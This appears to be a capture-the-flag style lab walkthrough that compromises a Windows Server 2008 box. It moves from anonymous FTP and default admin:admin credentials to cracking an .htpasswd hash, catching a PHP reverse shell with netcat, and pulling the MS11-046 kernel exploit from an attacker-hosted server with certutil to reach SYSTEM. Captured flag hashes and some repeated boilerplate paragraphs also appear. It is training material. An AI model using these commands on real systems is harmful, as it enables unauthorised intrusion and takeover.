

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | FTP and HTTP Basic Auth web application |
| Primary Entry Vector      | FTP credential discovery → .htpasswd crack → PHP reverse shell |
| Privilege Escalation Path | MS11-046 (CVE-2011-1249) kernel exploit → SYSTEM |

## Credentials

| Username | Password | Source |
|----------|----------|--------|
| admin    | admin    | FTP (zFTPServer) |
| offsec   | elite    | .htpasswd cracked via John the Ripper |

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.178.46:21
Open 192.168.178.46:242
```

```bash
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
242/tcp  open  http          Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
| http-auth:
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
3145/tcp open  zftp-admin    zFTPServer admin
3389/tcp open  ms-wbt-server Microsoft Terminal Service
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

FTP anonymous login revealed account directories:

```bash
cat accounts/backup/.listing
```

```bash
total 4
----------   1 root     root          764 Jul 10  2020 acc[Offsec].uac
----------   1 root     root         1030 Jul 10  2020 acc[anonymous].uac
----------   1 root     root          926 Jul 10  2020 acc[admin].uac
```

Login with `admin:admin` succeeded and exposed the web root:

```bash
ftp $ip
# login as admin:admin
ftp> ls
```

```bash
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
```

`.htpasswd` contained an MD5crypt hash:

```bash
cat .htpasswd
```

```bash
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

```bash
echo '$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
elite            (?)
1g 0:00:00:00 DONE (2026-03-09 00:27)
```

Authenticated to the web app as `offsec:elite`. Since the web root was writable via FTP, a PHP reverse shell was uploaded:

https://github.com/ivan-sincek/php-reverse-shell

```bash
nc -lvnp 4444
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.46] 49174
SOCKET: Shell has connected! PID: 1100
Microsoft Windows [Version 6.0.6001]

C:\wamp\bin\apache\Apache2.2.21>
```

Retrieved local.txt:

```bash
c:\Users\apache\Desktop>type local.txt
8f58872cf8fd5b801fcc334dcb29d8c6
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

`systeminfo` revealed Windows Server 2008 SP1 with no hotfixes applied:

```bash
c:\Users\apache\Downloads\win_tool>systeminfo
```

```bash
OS Name:    Microsoft Windows Server 2008 Standard
OS Version: 6.0.6001 Service Pack 1 Build 6001
System Type: X86-based PC
Hotfix(s):  N/A
```

MS11-046 (CVE-2011-1249) was applicable — the exploit binary was available locally:

```bash
locate MS11-046
```

```bash
/home/n0z0/tools/windows/windows-kernel-exploits/MS11-046/ms11-046.exe
```

Transfer and execute:

```bash
# Attacker
python3 -m http.server 8001

# Target
certutil -urlcache -split -f http://192.168.45.166:8001/ms11-046.exe ms11-046.exe
ms11-046.exe
```

```bash
c:\Users\Administrator\Desktop>type proof.txt
978ccf87a8064985b1a24df3f8417959
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Never use default or weak credentials (admin:admin) on FTP or administrative services.
- Store `.htpasswd` files outside the web-accessible FTP root or restrict read access.
- Apply security patches promptly — an unpatched Windows Server 2008 is trivially exploitable.
- Restrict FTP write access to prevent web shell uploads to the web root.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- CVE-2011-1249 (MS11-046): https://nvd.nist.gov/vuln/detail/CVE-2011-1249
- MS11-046 Exploit: https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046
- PHP Reverse Shell (ivan-sincek): https://github.com/ivan-sincek/php-reverse-shell
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- John the Ripper: https://www.openwall.com/john/
